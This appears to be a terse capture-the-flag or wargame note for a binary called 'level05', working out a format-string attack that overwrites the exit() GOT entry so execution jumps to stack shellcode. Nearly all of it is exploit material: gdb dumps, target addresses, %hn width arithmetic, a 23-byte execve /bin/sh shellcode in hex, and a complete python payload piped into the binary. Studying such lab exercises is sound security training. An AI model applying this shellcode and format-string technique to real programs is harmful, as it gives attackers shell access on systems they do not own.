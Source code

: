 # LEVEL 05

exit(GOT) 	=> 0x80497e0

buffer => 0xffffd6a8 + 8
buffershellcode => 0xffffd6b0



system 1 => ffff =>  65535 - 54960 => 10575
system 2 => d6b0 =>  54960 - 8 - 23 => 54929

disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) x/x *0x80497e0
0x8048376 <exit@plt+6>: 0x00001868
(gdb) x/x 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376


shellcode 23 =>  \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

(python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + '%54929c' + '%10\$hn' + '%10575c' + '%11\$hn'") | ./level05